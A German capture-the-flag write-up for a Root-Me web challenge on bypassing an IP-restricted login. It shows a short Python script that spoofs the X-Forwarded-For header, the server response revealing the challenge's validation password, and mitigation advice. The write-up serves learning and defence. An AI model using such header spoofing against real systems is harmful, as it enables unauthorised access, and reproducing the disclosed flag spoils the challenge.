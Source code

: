 ## Web Server

### HTTP: IP restriction bypass

Diese Aufgabe war durch eine Anmeldemaske geschützt, bei der entweder korrekte Administrator-Daten eingegeben werden mussten oder alternativ eine Anmeldung über eine bestimmte IP-Adresse möglich war. Die Seite erwähnte dabei localhost-IP-Adressen wie `127.0.0.1` (IPv4) oder `::1` (IPv6) sowie Standard-IP-Adressen für lokale Netzwerke, wie beispielsweise `192.168.0.0/24`.

Um eine andere IP-Adresse vorzutäuschen, kann der `X-Forwarded-For`-Header genutzt werden, der üblicherweise bei Proxys oder Reverse-Proxys eingesetzt wird. Damit lässt sich dem Server eine beliebige IP-Adresse übermitteln. Wichtig dabei ist, dass die eigentliche IP-Adresse der TCP/UDP-Verbindung unverändert bleibt und nur suggeriert wird, dass die Anfrage von einer anderen Quelle stammt.

```python
import requests
url = "http://challenge01.root-me.org/web-serveur/ch68/"
headers = {
    "X-Forwarded-For": "192.168.0.1"  # Zuerst wurde 127.0.0.1 getestet
}
response = requests.get(url, headers=headers)
print(response.text)
```

Zum Testen der Attacke gibt es Tools wie `curl` oder `wget`. Hier wurde ein einfaches Python-Skript erstellt, das die URL aufruft und den Header setzt. Der Request wird ausgeführt, und der Server-Response-Body wird in der Konsole ausgegeben.

```bash
python .\try1_X-Forward.py
```

Im Server-Response befindet sich das gewünschte Ergebnis:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Secured Intranet</title>
</head>
<body>
    <link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' />
    <iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
    <h1>Intranet</h1>
    <div>
        Well done, the validation password is: <strong>Ip_$po0Fing</strong>
    </div>
</body>
</html>
```

Um diese Schwachstelle zu schließen, sollte auf IP-basierte Authentifizierung verzichtet oder der Dienst nur über ein VPN zugänglich gemacht werden. Falls dies nicht möglich ist, muss der `X-Forwarded-For`-Header im Service ignoriert werden.
